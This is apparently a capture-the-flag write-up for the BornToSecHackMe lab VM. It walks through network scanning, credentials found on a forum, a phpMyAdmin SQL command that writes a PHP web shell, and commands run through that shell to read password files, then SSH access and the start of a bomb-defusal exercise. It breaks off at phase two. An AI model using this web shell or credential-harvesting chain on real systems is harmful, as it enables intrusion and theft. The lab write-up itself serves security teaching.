 # writeup1

- ifconfig

result:
```
➜  ~ ifconfig
bridge100: flags=8a63<UP,BROADCAST,SMART,RUNNING,ALLMULTI,SIMPLEX,MULTICAST> mtu 1500
	options=3<RXCSUM,TXCSUM>
	ether f2:2f:4b:00:8c:64 
	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
	inet6 fe80::f02f:4bff:fe00:8c64%bridge100 prefixlen 64 scopeid 0x16 
	inet6 fda8:424a:3d63:d0fe:c9a:6453:629:bbd1 prefixlen 64 autoconf secured 
	Configuration:
		id 0:0:0:0:0:0 priority 0 hellotime 0 fwddelay 0
		maxage 0 holdcnt 0 proto stp maxaddr 100 timeout 1200
		root id 0:0:0:0:0:0 priority 0 ifcost 0 port 0
		ipfilter disabled flags 0x0
	member: vmenet0 flags=3<LEARNING,DISCOVER>
	        ifmaxaddr 0 port 21 priority 0 path cost 0
	nd6 options=201<PERFORMNUD,DAD>
	media: autoselect
	status: active
```

- nmap local network

```
➜  ~ sudo nmap 192.168.64.0-255
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 18:24 CEST
Nmap scan report for 192.168.64.2
Host is up (0.0048s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
MAC Address: 66:F1:9A:FE:A6:3A (Unknown)

Nmap scan report for 192.168.64.1
Host is up (0.0030s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
5000/tcp open  upnp
7000/tcp open  afs3-fileserver

Nmap done: 256 IP addresses (2 hosts up) scanned in 2.46 seconds
```

- use metasploit for scan port 80

result: we found the forum
```
msf6 auxiliary(scanner/http/dir_webdav_unicode_bypass) > use auxiliary/scanner/http/files_dir 
msf6 auxiliary(scanner/http/files_dir) > set RHOSTS 192.168.64.2
RHOSTS => 192.168.64.2
msf6 auxiliary(scanner/http/files_dir) > run

[*] Using code '404' as not found for files with extension .null
[*] Using code '404' as not found for files with extension .backup
[*] Using code '404' as not found for files with extension .bak
[*] Using code '404' as not found for files with extension .c
[*] Using code '404' as not found for files with extension .cfg
[*] Using code '404' as not found for files with extension .class
[*] Using code '404' as not found for files with extension .copy
[*] Using code '404' as not found for files with extension .conf
[*] Using code '404' as not found for files with extension .exe
[*] Using code '404' as not found for files with extension .html
[+] Found http://192.168.64.2:80/index.html 200
[*] Using code '404' as not found for files with extension .htm
[*] Using code '404' as not found for files with extension .ini
[*] Using code '404' as not found for files with extension .log
[*] Using code '404' as not found for files with extension .old
[*] Using code '404' as not found for files with extension .orig
[*] Using code '404' as not found for files with extension .php
[*] Using code '404' as not found for files with extension .tar
[*] Using code '404' as not found for files with extension .tar.gz
[*] Using code '404' as not found for files with extension .tgz
[*] Using code '404' as not found for files with extension .tmp
[*] Using code '404' as not found for files with extension .temp
[*] Using code '404' as not found for files with extension .txt
[*] Using code '404' as not found for files with extension .zip
[*] Using code '404' as not found for files with extension ~
[*] Using code '404' as not found for files with extension 
[+] Found http://192.168.64.2:80/forum 403
[*] Using code '404' as not found for files with extension 
[+] Found http://192.168.64.2:80/forum 403
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Go to `Problem to login ?` thread et search password

- forum

login: `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

- webmail

login: `laurie@borntosec.net`
password: same as forum

- phpmyadmin

login: `root`
password: `Fg-'kKXBj87E:aJ$`

- Go to phpmyadmin and execute sql command: `SELECT '<?php system($_GET["command"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/cmd.php'`

- Go to this url: https://192.168.64.2/forum/templates_c/cmd.php?command=whoami

result: `www-data`

- Check python https://192.168.64.2/forum/templates_c/cmd.php?command=whereis%20python (resources: https://www.urlencoder.org/)

result: `python: /usr/bin/python /usr/bin/python2.7 /etc/python /etc/python2.7 /usr/lib/python2.7 /usr/bin/X11/python /usr/bin/X11/python2.7 /usr/local/lib/python2.7 /usr/include/python2.7 /usr/share/python /usr/share/man/man1/python.1.gz`

- ls the home https://192.168.64.2/forum/templates_c/cmd.php?command=ls%20-la%20%2Fhome

result:
```
total 0 drwxrwx--x 1 www-data root 60 Oct 13 2015 . drwxr-xr-x 1 root root 220 Aug 1 2022 .. drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net 60 Oct 15 2015 laurie@borntosec.net dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard drwxr-x--- 3 thor thor 129 Oct 15 2015 thor drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz
```

- ls the folder LOOKATME https://192.168.64.2/forum/templates_c/cmd.php?command=ls%20-lA%20%2Fhome%2FLOOKATME

- Cat the file LOOKATME/password https://192.168.64.2/forum/templates_c/cmd.php?command=cat%20%2Fhome%2FLOOKATME%2Fpassword

`lmezard:G!@M6f4Eatau{sF"`

- Log to ftp with filezilla

result: 2 files
```
README
fun
```

README content: `Complete this little challenge and use the result as password for user 'laurie' to login in ssh`

- find fun

result: it is a tar file

- tar -xvf fun

result: ft_fun folder with many .pcap files

- Execute scripts/regenerate.py in ft_fun folder

result:
```
> python3 Regenerate.py
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
Hashed password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

- Connect to ssh with `ssh laurie@192.168.64.2`

```
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

- Play ./bomb game !

phase_1: `Public speaking is very easy.`
```
(gdb) disas main
(gdb) disas phase_1
(gdb) x /s 0x80497c0
0x80497c0:	 "Public speaking is very easy."
```

phase_2:
```

```